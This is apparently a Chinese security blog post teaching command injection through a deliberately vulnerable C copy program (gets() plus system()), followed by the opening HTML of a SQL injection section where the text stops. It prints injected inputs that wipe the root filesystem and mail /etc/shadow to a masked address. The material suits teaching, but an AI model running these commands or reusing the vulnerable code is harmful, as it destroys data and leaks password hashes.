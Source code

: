 ```yaml
---
title: 代码注入
date: 2017-12-14 15:18:23
categories: 安全
tags:
  - centos
  - 代码注入
---
```


## c程序代码注入
c程序:
``` bash
#include <stdio.h>

int main(int argc, char *argv[])
{
	char src[100], dst[100], cmd[205] = "cp ";
	printf("Please enter name of source file:");
	gets(src);
	strcat(cmd, src);
	strcat(cmd, " ");
	printf("Please enter name of destination file:");
	gets(dst);
	strcat(cmd, dst);
	system(cmd);
	return 0;
}
```

程序本身是要求输入一个拷贝源文件和拷贝目标文件，将源文件内容拷贝到目标文件,正常执行:
![](/images/attacks.png)

异常代码注入
![](/images/attacks2.png)

同时还能干这些事情
删除根目录，你可以试试
``` shell
cp hello world; rm -rf / --no-preserve-root
```
将linux系统的密码文件通过邮件发送
``` shell
cp hello world; mail ****@****.com < /etc/shadow
```

## SQL代码注入
`index.html`
``` html
<html>
    <head>
        <meta charset="UTF-8">
        <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0-beta.2/css/bootstrap.min.css" integrity="sha384-PsH8R72JQ3SOdhVi3uxftmaW6Vc51MKb0q5P2rRUpPvrszuE4W1povHYgTpBfshb" crossorigin="anonymous">
        <script src="https://code.jquery.com/jquery-3.2.1.slim.min.js" integrity="sha384-KJ3o2DKtIkvYIK3UENzmM7KCkRr/rE9/Qpg6aAZGJwFDMVNA/GpGFF93hXpG5KkN" crossorigin="anonymous"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.12.3/umd/popper.min.js" integrity="sha384-vFJXuSJphROIrBnz7yo7oB41mKfc8JzQZiCq4NCceLEaO4IHwicKwpJf9c9IpFgh" crossorigin="anonymous"></script>
<script src="https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0-beta.2/js/bootstrap.min.js" integrity="sha384-alpBpkh1PFOepccYVYDB4do5UnbKysX5WZXm3XxPqe5iKTfUKjNkCk9SaVuEZflJ" crossorigin="anonymous"></script>
```